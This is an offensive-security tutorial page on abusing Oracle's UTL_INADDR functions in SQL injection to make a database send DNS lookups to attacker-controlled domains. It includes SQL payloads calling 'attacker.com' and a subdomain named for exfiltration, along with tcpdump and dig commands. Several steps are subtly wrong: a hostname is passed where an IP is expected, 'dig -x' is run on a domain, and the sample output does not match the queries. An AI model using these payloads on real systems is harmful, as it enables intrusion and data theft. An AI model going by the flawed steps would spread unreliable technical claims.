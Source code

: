 ```yaml
---
title: Exploiting UTL_INADDR for SQL Injection in Oracle DB
description: Explore UTL_INADDR functions in Oracle, often exploited in SQL injections
  for data exfiltration and DNS manipulation. Learn theory, risks, and techniques.
keywords:
- UTL_INADDR
- SQL injection
- Oracle Database
- DNS manipulation
- GET_HOST_ADDRESS
- GET_HOST_NAME
- data exfiltration
---
```


# UTL_INADDR

## Context

UTL_INADDR is a package in Oracle Database designed for resolving host names and IP addresses within the database environment. While its primary purpose is to facilitate database networking and connectivity, it's commonly targeted during SQL injection attacks, especially out-of-band (OOB) attacks, where attackers seek to extract data or perform domain name system (DNS)-based reconnaissance without triggering standard security defenses.

## Theory

### Core Idea

The UTL_INADDR package can be exploited through SQL injection techniques. Attackers leverage its functions to establish connections to external networks or perform DNS lookups, which may be used to exfiltrate data covertly or gather intelligence about the target's infrastructure.

### Core Functions

- **GET_HOST_ADDRESS**: Resolves the IP address for the given host name.
- **GET_HOST_NAME**: Resolves the host name for the given IP address.

### Risks

- **Data Leakage**: Unauthorized network traffic may lead to sensitive data being leaked.
- **External Connections**: Using DNS lookups can allow attackers to communicate with external servers, circumventing network policies.

### UTL_INADDR Overview Diagram

```mermaid
graph TD;
    A[UTL_INADDR Overview] --> B(GET_HOST_ADDRESS)
    A --> C(GET_HOST_NAME)
    B --> D[External DNS Communication]
    C --> E[IP Resolution Manipulation]
```

In the diagram above, the relationship between UTL_INADDR functions and potential risk vectors like DNS communication is illustrated, emphasizing the functions most targeted in attacks.

## Practice

### Technique: Using GET_HOST_ADDRESS for DNS Extraction

#### Steps:

1. **Crafting SQL Injection**: Utilize `UTL_INADDR.GET_HOST_ADDRESS` to initiate external DNS requests.
   ```sql
   SELECT UTL_INADDR.GET_HOST_ADDRESS('attacker.com') FROM dual;
   ```
   This query triggers the Oracle Database to resolve the specified domain to an IP address externally via DNS.

2. **Network Traffic Monitoring**: Use tools like `tcpdump` to capture outgoing DNS requests.
   ```bash
   tcpdump -i eth0 udp port 53
   ```
   This command listens for DNS traffic on the specified network interface.

3. **Expected Output**:
   ```
   12:34:56.789 IP victim_db > attacker.com: 1234+ PTR? example.com. (43)
   ```
   Analyze captured network traffic to detect unexpected DNS requests that may indicate data exfiltration attempts.

### Technique: Subverting GET_HOST_NAME for Data Exfiltration

#### Steps:

1. **Executing DNS Leakage**: Use `GET_HOST_NAME` to reverse-lookup attacker-controlled domains.
   ```sql
   SELECT UTL_INADDR.GET_HOST_NAME('data.exfiltrate.attacker.com') FROM dual;
   ```
   This query triggers an attempt to resolve a crafted domain, potentially revealing internal host details.

2. **DNS Lookup Validation**: Use `dig` or similar DNS tools to verify reverse lookup results.
   ```bash
   dig -x attacker.com
   ```

3. **Expected Output**:
   ```
   response: example.internal (10.0.0.5)
   ```
   Look for internal host and network details being indirectly leaked through DNS queries.

### Tools

- **tcpdump**: Monitor and capture network packets to check for unauthorized DNS queries.
- **Wireshark**: Analyze captured network data and observe patterns or anomalies.
- **Dig**: Perform DNS lookups and reverse lookups to confirm data flows.
- **SQL Developer**: Execute crafted SQL queries to test SQL payloads.

### Result Usage

Using these techniques and tools, attackers can gather intelligence about internal networks via DNS records, verify interactions between the database server and external systems, and assess the potential for exfiltrating sensitive information to attacker-controlled DNS servers. This understanding can help in planning further stages of intrusion but should be conducted with due authorization for ethical and legal purposes.